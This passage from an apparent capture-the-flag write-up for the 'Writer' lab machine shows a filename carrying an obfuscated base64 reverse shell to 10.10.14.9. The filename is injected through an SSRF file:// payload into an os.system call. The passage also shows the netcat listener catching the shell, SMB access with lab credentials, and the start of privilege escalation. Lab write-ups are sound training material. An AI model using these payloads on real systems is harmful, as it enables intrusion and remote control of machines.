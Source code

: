 Now, create a file:

```bash
$ touch 'revshell.jpg; `echo L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuOS80NDQ0NCAwPiYxIg== | base64 -d | bash `;'
```

Then, you need to the following steps:

* create a new story and choose as a file our created file with its strange filename
* after it is done, check it in /static/img, if it was really created.
* Now, you can inject the SSRF payload something like: `file:///var/www/writer.htb/writer/static/img/revshell.jpg; echo L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuOS80NDQ0NCAwPiYxIg== | base64 -d | bash;#`

The code will take the param `image_url` from request and retrieve URL which is `file:///`. Then, the filename will be used within this code `os.system("mv {} {}.jpg".format(local_filename, local_filename))`.

Finally, I received my reverse shell:

```bash
$ nc -lnvp 44444
listening on [any] 44444 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.101] 59344
bash: cannot set terminal process group (1042): Inappropriate ioctl for device
bash: no job control in this shell
www-data@writer:/$
```

Also, we had an access to smb with creds: `kyle:ToughPasswordToCrack`:

```bash
$ smbclient -U "kyle" \\\\10.10.11.101\\writer2_project
Enter WORKGROUP\kyle's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Aug  2 02:52:48 2021
  ..                                  D        0  Tue Jun 22 13:55:06 2021
  static                              D        0  Sun May 16 16:29:16 2021
  staticfiles                         D        0  Fri Jul  9 06:59:42 2021
  writer_web                          D        0  Wed May 19 11:26:18 2021
  requirements.txt                    N       15  Tue Aug 17 12:56:01 2021
  writerv2                            D        0  Wed May 19 08:32:41 2021
  manage.py                           N      806  Tue Aug 17 12:56:01 2021

                7151096 blocks of size 1024. 2412600 blocks available
smb: \>
```

But I didn't find something that we could do with this access.

## Privilege escalation

Started linpeas which found interesting mariadb config:

```bash
www-data@writer:/etc/mysql$ cat mariadb.cnf 
# The MariaDB configuration file
#
# The MariaDB/MySQL tools read configuration files in the following order:
# 1. "/etc/mysql/mariadb.cnf" (this file) to set global defaults,
# 2. "/etc/mysql/conf.d/*.cnf" to set global options.
# 3. "/etc/mysql/mariadb.conf.d/*.cnf" to set MariaDB-only options.
# 4. "~/.my.cnf" to set user-specific options.
#
# If the same option is defined multiple times, the last one will apply.
#
# One can use all long options that the program supports.
```